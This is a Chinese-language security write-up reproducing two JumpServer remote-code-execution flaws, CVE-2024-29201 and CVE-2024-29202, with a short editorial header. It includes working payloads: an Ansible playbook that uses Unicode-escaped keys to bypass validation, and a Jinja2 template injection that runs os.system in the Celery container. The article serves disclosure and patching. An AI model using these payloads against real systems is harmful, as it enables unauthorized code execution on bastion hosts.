# CVE-2024-29201and29202：JumpServer 后台 RCE 漏洞

<!-- vulwiki-editorial:start -->
## 校订与适用边界

- 适用前提：Account plus job/playbook capability and asset assignment;3.0.0-3.10.6 claimed; fixed3.10.7
- 证据范围：Separately demonstrates Unicode-key validation bypass and Jinja2 injection; results screenshot-only

### 本次正文校订

- 修正正文中的 Jinin2 → Jinja2 转录错误，资源路径保持原样。

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- Jinja2 payload includes literal backslash escapes around delimiters; verify source escaping before use
- Third GitHub security URL truncated to/securit
- Clarify role/feature permissions rather than merely 'account'; Celery container scope not host root
- Jinin2 typo; strip promotions/history from primary CVE extraction

### 操作风险与资料使用

- 含落盘脚本或账户创建：会留下持久状态。记录本次生成的路径或账户，测试后清理这些对象并撤销关联令牌；不要删除既有业务对象。

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

<meta name="referrer" content="no-referrer"/>

> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/-5PMD2lZ-x56bc5HcVrTtA)

> 关注我们❤️，添加星标🌟，一起学安全！  
> 作者：七安 @Timeline Sec  
> 本文字数：1180  
> 阅读时长：2～4min  
> 声明：仅供学习参考使用，请勿用作违法用途，否则后果自负  

0x01 简介  

----------

JumpServer 是广受欢迎的开源堡垒机，是符合 4A 规范的专业运维安全审计系统。

0x02 漏洞概述  

------------

**漏洞编号：CVE-2024-29201&CVE-2024-29202**

CVE-2024-29201 远程代码执行漏洞，该漏洞可绕过 JumpServer 的 Ansible 中的输入验证机制，在 Celery 容器中执行任意代码 

CVE-2024-29202 Jinja2 模板注入漏洞，该漏洞是有 JumpServer 的 Ansible 中存在 Jinja2 模板注入，在 Celery 容器中执行任意代码。

值得注意的是：**两个漏洞利用的条件都需要账号。**

0x03 影响版本  

------------

v3.0.0 <= JumpServer <= v3.10.6

0x04 环境搭建  

------------

首先下载官方提供的脚本，下载后编辑 `quick_start.sh`，将脚本中的 `VERSION` 修改为存在漏洞版本，如：`V3.10.6`。如下图所示：



等待服务启动，启动完成后访问 http://ip/



JumpServer 默认账号密码为 `admin/admin`

接着进入后台添加资产，具体步骤如下图所示：



添加资产后需要测试是否添加成功，点击资产后面的 `更多-测试` 进行测试。

资产添加完成后添加用户，如下图所示：



最后为用户分配一个资产，如下图所示：



至此环境搭建完成。

0x05 漏洞复现  

------------

**CVE-2024-29201**

登陆创建的普通用户账号，进入 `作业中心-模板管理` 添加一个 `Playbook`



点击创建的 `Playbook` 名称，切换到 `工作空间`，输入以下内容：

```
[{
     "name": "RCE playbook",
     "hosts": "all",
     "tasks": [
       {
         "name": "this runs in Celery container",
         "shell": "id > /tmp/pwnd",
         "\u0064elegate_to": "localhost"
} ],
     "vars": {
     "ansible_\u0063onnection": "local"
     }
}]


```



点击保存。保存完成之后切换到 `作业管理` 页面，创建一个新的 `Playbook` 作业



`playbook` 作业详情如下：



点击保存并运行作业



运行结果如下：



进入 Celery 容器，查看 tmp 目录下是否存在 `pwnd` 文件



**CVE-2024-29202**

与 CVE-2024-29201 类似，进入 `作业中心-模板管理` 添加一个 `Playbook`，在 `工作空间` 输入的内容为：

```
- name: |
       \{\% for x in ().__class__.__base__.__subclasses__() \%\}
         \{\% if "warning" in x.__name__ \%\}
           \{\{
             x()._module.__builtins__["__import__"]("os").system("id > /tmp/pwnd2")
           \}\}
         \{\%endif\%\}
       \{\%endfor\%\}


```

添加完成后，同样进入作业管理页面创建并运行 `Playbook` 作业。运行结果如下：



进入 Celery 容器，查看 tmp 目录下是否存在 `pwnd2` 文件



0x06 修复方式  

------------

1、升级到 v3.10.7 版本

2、关闭任务中心，任务中心位于：系统设置 - 功能设置 - 任务中心

参考链接  

-------

https://github.com/jumpserver/jumpserver/security/advisories/GHSA-pjpp-cm9x-6rwj

https://github.com/jumpserver/jumpserver/security/advisories/GHSA-2vvr-vmvx-73ch

https://github.com/jumpserver/jumpserver/securit

历史漏洞  

-------

[CVE-2023-42820](http://mp.weixin.qq.com/s?__biz=MzA4NzUwMzc3NQ==&mid=2247492897&idx=1&sn=f18892cb7c0dbd4ddc8816a3b0914efc&chksm=903ac3d1a74d4ac7aa71b1411932b7746bfd97b6a6e4f3d5a29b9d9e6fa850069ab48d68d06f&scene=21#wechat_redirect)- 前台 - POC 已公开  
CVE-2023-43650 - 前台 - POC 已公开  
[CVE-2023-42442](http://mp.weixin.qq.com/s?__biz=MzA4NzUwMzc3NQ==&mid=2247492729&idx=1&sn=ee8b8fea70a85eb98566fb44d264aba5&chksm=903ac289a74d4b9f16bfa1c9df49b2dad677d7aff758884cf29c4de4e60bacb17917420691fa&scene=21#wechat_redirect)- 前台 - POC 已公开  
CVE-2024-29202-POC 已公开  
CVE-2023-42819-POC 已公开  
CVE-2023-43652-POC 已公开  
CVE-2023-43651-POC 已公开


回复【加群】进入微信交流群  
回复【SRC 群】进入 SRC-QQ 交流群  
回复【新人】领取新人学习指南资料  
回复【面试】获取渗透测试常见面试题  
回复【合作】获取各类安全项目合作方式  
回复【帮会】付费加入 SRC 知识库学习  
回复【培训】获取官方直播精品课程详情

视频号：搜索 TimelineSec

官方微博：

觉得有用就收藏起来吧！

顺便点个赞和在看  


---

> 来源：MrWQ/vulnerability-paper（https://github.com/MrWQ/vulnerability-paper）
